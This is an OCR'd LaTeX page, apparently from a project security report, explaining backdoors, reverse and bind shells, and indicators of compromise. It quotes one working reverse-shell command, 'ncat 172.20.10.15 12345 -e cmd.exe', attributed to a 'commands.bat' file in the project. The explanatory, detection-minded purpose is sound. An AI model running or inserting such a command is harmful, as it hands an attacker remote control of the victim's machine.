 \documentclass[11pt]{article}
\begin{document}
				\subsubsection{Backdoors and Remote Access}
					A backdoor is a covert method of bypassing normal authentication or encryption in a computer system, and application, or an embedded device.\par
					It allows unauthorized remote access to a system, enabling attackers to control the compromised machine, exfiltrate data, or use it as a pivot point for further attacks.\par
					Backdoors can be established trough various means, including exploiting vulnerabilities, installing malicious software, or using legitimate remote administration tools for malicious purposes.\par
					A common method is \textbf{Reverse Shells}, in which the compromised machine initiates an outbound connection to an attacker-controlled server, often used to bypass firewalls that restrict inbound connections. The command \texttt{'ncat 172.20.10.15 12345 -e cmd.exe'} in \texttt{'commands.bat'} code used in the project attempts to establish a reverse shell, by creating a TCP/IP connection from the victim's computer to the attacker IP address through a free port.\par
					Another method for backdoor and remote access is \textbf{Bind Shells} in which the compromised machine opens a listening port, waiting for the attacker to connect.\par
					\textbf{The Indicator of Compromises} that can be used to detect such an access are an unexpected network connection (especially to unusual IP addresses or ports), unexplained system behavior, or new user accounts
		
\end{document}
